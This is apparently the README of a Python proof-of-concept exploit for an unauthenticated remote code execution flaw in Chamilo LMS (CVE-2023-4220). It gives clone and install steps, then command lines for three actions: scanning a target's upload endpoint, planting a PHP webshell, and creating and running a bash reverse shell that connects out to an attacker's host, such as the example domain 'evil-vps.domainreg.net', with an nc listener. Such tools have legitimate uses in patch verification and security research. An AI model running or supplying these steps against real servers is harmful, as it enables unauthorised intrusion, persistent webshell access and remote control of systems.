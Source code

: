 # Chamilo LMS Unauthenticated RCE PoC

This is a script written in Python that allows the exploitation of the **Chamilo's LMS** software security flaw described in **CVE-2023-4220**.  The system is vulnerable in versions preceding **1.11.24**.

## Usage

Clone the repository to your machine and install the dependencies using **pip** (it is recommended to use **virtualenv** to create an environment to separate these installations from global installations)


git clone https://github.com/charchit-subedi/chamilo-lms-unauthenticated-rce-poc
cd chamilo-lms-unauthenticated-rce-poc
pip install -r requirements.txt


The script needs the **target URL** with the **Chamilo's** root path (like **http://example.com/chamilo, http://example.com** or **http://chamilo.example.com)** and a action to perform (there is three of them available: **scan, webshell** and **revshell**).

### Scan
 
This action will check if the target is vulnerable by trying to access the **/main/inc/lib/javascript/bigupload/files/** endpoint.

python3 main.py -u http://example.com/chamilo -a scan


### Webshell

This action will create a **PHP webshell** file in the vulnerable endpoint.


python3 main.py -u http://example.com/chamilo -a webshell


### Revshell

This action will create and execute a **bash reverse shell** file. To do this, a **webshell** will first be created using the same method used in the previous action. After that, some commands will be executed to create and execute the **bash** file. Be sure to be listening on the port you defined with **nc** or any other utilitary so you actually get the reverse connection. Also, the host can be a valid **internal/public IPv4** (like **172.17.1.4** or **186.227.4.31)** or the domain that you have registered (like **evil-vps.domainreg.net**)


python3 main.py -u http://example.com/chamilo -a revshell

